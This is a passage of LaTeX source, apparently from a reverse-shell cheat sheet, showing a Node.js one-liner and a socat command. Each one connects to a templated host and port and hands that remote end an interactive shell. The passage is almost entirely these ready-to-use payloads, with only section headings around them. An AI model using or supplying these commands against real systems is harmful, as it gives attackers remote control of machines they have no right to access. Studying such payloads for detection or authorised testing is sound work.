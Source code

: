 \subsection{Node.js (\texttt{node})}

\begin{cmdline}{bash}{|}{node}{}
node -e 'shell = require("child_process").spawn("|\shell|"); require("net").connect(|\port|, "|\host|", function () { this.pipe(shell.stdin); shell.stdout.pipe(this); shell.stderr.pipe(this); })'
\end{cmdline}

\section{Other tools}

\subsection{Socat (\texttt{socat})}

\begin{cmdline}{bash}{|}{socat}{}
socat tcp-connect:|\host|:|\port| exec:|\shell|,pty,stderr,setsid,sigint,sane
\end{cmdline}

